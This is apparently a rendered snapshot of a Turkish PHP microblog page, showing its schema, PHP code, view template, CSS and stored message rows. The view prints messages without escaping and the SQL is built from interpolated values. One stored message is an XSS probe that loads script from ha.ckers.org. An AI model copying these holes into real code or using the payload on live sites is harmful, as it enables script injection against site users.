
The page / on the database its author committed.
### tables this page shows
CREATE TABLE `messages` (
  `id` int(11) NOT NULL auto_increment,
  `user_id` int(11) NOT NULL,
  `message` varchar(140) NOT NULL,
  `created_at` datetime NOT NULL,
  PRIMARY KEY  (`id`)
);

CREATE TABLE `users` (
  `id` int(11) NOT NULL auto_increment,
  `name` varchar(50) NOT NULL,
  `surname` varchar(50) NOT NULL,
  `email` varchar(128) NOT NULL,
  `username` varchar(50) NOT NULL,
  `password` varchar(40) NOT NULL,
  PRIMARY KEY  (`id`)
);

### index.php (called while the page is built, shortened)
<?php
require 'includes/functions.php';
$query = mysql_query("SELECT * FROM messages ORDER BY created_at DESC") or die(mysql_error());
while ($info = mysql_fetch_assoc($query)) {
    $messages[] = $info;
}
require 'views/layout/header.php';
require 'views/index.php';
require 'views/layout/footer.php';

### includes/functions.php (called while the page is built, shortened)
<?php
function get_username($user_id) {
    $query = mysql_query("SELECT username FROM users WHERE id = '$user_id'");
    return mysql_result($query, 0);
}

### views/index.php (the view, shortened to what this page needs)
<div class="content_div">
    <div class="title">
        <div class="float-left">Mesajlar</div>
    </div>
</div>
<div class="spacer clearboth"></div>
<?php if (!empty($messages)) : ?>
<?php foreach ($messages as $message) : ?>
<div class="content_div">
    <div class="subtitle">
        <div class="float-left"><?php echo get_username($message['user_id']) ?></div>
        <div class="float-right timestamp"><?php echo strtotime($message['created_at']) ?></div>
    </div>
    <div class="rows">
        <div class="text">
            <div class="float-left">
                <?php if (file_exists('public/uploads/' . $message['user_id'] . '_t.jpg')) : ?>
                <img src="<?php echo DOC_ROOT ?>/public/uploads/<?php echo $message['user_id'] ?>_t.jpg" alt="" />
                <?php else : ?>
                <img src="<?php echo DOC_ROOT ?>/public/images/user_avatar.png" alt="" />
                <?php endif ?>
            </div>
            <div class="float-left" style="padding-left: 5px;">
                <?php echo $message['message'] ?>
            </div>
        </div>
    </div>
</div>
<div class="spacer clearboth"></div>
<?php endforeach ?>
<?php endif ?>
<div class="spacer clearboth"></div>
<div class="content_div">
    <div class="title">
        <div class="float-left">Mesaj yaz</div>
    </div>
    <div class="rows">
        <div class="text">
            <?php if ($_SESSION['user_id'] > 0) : ?>
            <form action="" method="post">
                <textarea name="message" cols="70" rows="3"></textarea>
                <br />
                <input type="hidden" name="action" value="save_message" />
                <input type="submit" class="button" value="Gönder" />
            </form>
            <?php else : ?>
            Mesaj gönderebilmek için
            <a href="<?php echo DOC_ROOT ?>/login.php">üye girişi</a>
            yapmanız gerekmektedir.
            <?php endif ?>
        </div>
    </div>
</div>

### views/layout/header.php (shortened to what this page needs)
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
    <head>
        <link href="<?php echo DOC_ROOT ?>/public/css/style.css" rel="stylesheet" type="text/css" />
    </head>
    <body>
        <div class="body">
            <div class="container">
                <div class="header">
                    <div class="float-left">
                        <div id="head_menu">
                            <ul>
                                <li><a href="<?php echo DOC_ROOT ?>/index.php">Ana sayfa</a></li>
                                <?php if (!isset($_SESSION['user_id'])) : ?>
                                <li><a href="<?php echo DOC_ROOT ?>/login.php">Giriş yap</a></li>
                                <li><a href="<?php echo DOC_ROOT ?>/register.php">Üye ol</a></li>
                                <?php endif ?>
                            </ul>
                        </div>
                    </div>
                </div>
                <div class="middle">
                    <div class="content">

### views/layout/footer.php (shortened to what this page needs)
                    </div>
                    <div class="microblog"></div>
                </div>
                <div class="footer"></div>
            </div>
        </div>
    </body>
</html>

### public/css/style.css (style rules this page uses)
html { padding:0; margin:0; overflow-y: scroll; }
body { padding:0; margin:0; background: url('../images/bg.gif'); font-family: Arial, Helvetica, sans-serif; font-size: 15px; color: #000; cursor: default; }
a { outline: none; font-size: 14px; color: #0053A4; }
a:link { text-decoration: none; }
img { border: 0; }
.clearboth { clear:both; }
.spacer { height:10px; width:10px; }
div.body { padding-top: 20px; margin: 0 auto; width: 993px; }
div.container { width: 993px; }
div.container .header { background: url('../images/container_header.png') no-repeat; width: 100%; height: 77px; }
div.container .middle { position: relative; background: url('../images/container_middle.png') repeat-y; width: 100%; }
div.container .middle .content { float: left; width: 857px; padding: 10px 0 10px 22px; }
div.container .middle .microblog { float: right; width: 91px; height: 207px; margin-right: 10px; padding: 20px 0; background: url('../images/microblog.png') no-repeat center center; }
div.container .footer { background: url('../images/container_footer.png') no-repeat; width: 100%; height: 28px; }
div#head_menu { position: relative; width: 100%; height: 46px; padding: 20px 0 0 10px; }
div#head_menu ul { list-style: none; padding: 0 0 0 5px; margin: 0; }
div#head_menu ul li { float: left; height: 35px; padding: 8px 10px 0; }
div#head_menu ul li a { font-family: Calibri; font-weight: bold; font-size: 16px; color: #fbfbfb; padding: 7px 15px; display: block; }
div.content_div { width: 100%; }
div.content_div .title { min-height: 27px; padding: 7px 5px 0 5px; font-family: Calibri; font-size: 17px; background: url('../images/forum_title_bg.gif') repeat-x #EDECEE; border: 1px solid #d8d8d8; border-top-left-radius: 5px; border-top-right-radius: 5px; }
div.content_div .subtitle { height: 22px; padding: 5px 5px 0 5px; font-family: Calibri; font-size: 16px; color: #FFF; background: url('../images/forum_subtitle_bg.gif') repeat-x; }
div.content_div .text { padding: 5px; background: #FFF; border-bottom: 1px solid #d8d8d8; border-right: 1px solid #d8d8d8; border-left: 1px solid #d8d8d8; border-top: 0; }
.float-left { float: left; }
.float-right { float: right; }

### rows shown on the page
messages: user.username "rterzi", created_at "1341074738", message "<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>"
messages: user.username "rterzi", created_at "1341074434", message ":p"
messages: user.username "rterzi", created_at "1341067233", message "selamm..."
messages: user.username "hdogan", created_at "1341066912", message "en yeni mesaj...."
messages: user.username "hdogan", created_at "1341066163", message "ilk microblog postu...."
